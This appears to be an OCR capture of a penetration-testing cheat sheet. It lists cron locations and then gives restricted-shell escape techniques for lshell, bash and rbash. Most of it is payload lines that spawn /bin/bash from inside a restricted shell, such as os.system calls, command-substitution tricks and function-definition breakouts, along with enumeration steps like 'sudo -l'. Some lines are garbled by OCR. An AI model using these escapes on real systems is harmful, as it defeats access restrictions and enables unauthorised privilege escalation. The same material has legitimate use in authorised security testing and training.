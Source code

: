 /etc/cron.daily

/etc/cron.hourly

/etc/cron.monthly

/etc/cron.weekly

/var/spool/cron             <- User crontabs

/var/spool/cron/crontabs    <- User crontabs

#Restricted shell escape techniques:

Get your restricted shell type by hitting: $SHELL or $0

First, check available commands such as cd, ls, echo, etc. Second, check for available operators such as >, >>, <, |. Third, check available programming languages such as perl, ruby, python, etc. Fourth, check whether you can run commands as root sudo -l. Fifth, check environmental variables run env or printenv

# lshell:

echo os.system('/bin/bash')

 echo "#!/bin/bash" > shell.sh
 echo "/bin/bash" >> shell.sh
echo'/shell.sh'

echo "#!/bin/bash" > shell.sh
echo "/bin/bash" >> shell.sh
echo^Khohoho/shell.sh

echo "$(bash 1>&2)"

echo <CTRL+V> <CTRL+J>

# bash:

# ?
cd  clear  echo  exit  help  history  ll  lpath  ls  lsudo
ll non-existent-dir || 'bash'

echo () bash && echo

echo<CTRL+V><CTRL+I>() bash && echo

echo FREEDOM! && help () bash && help 
FREEDOM!

# rbash:

Common Exploitation Techniques:

If / is allowed, you can run /bin/sh or /bin/bash
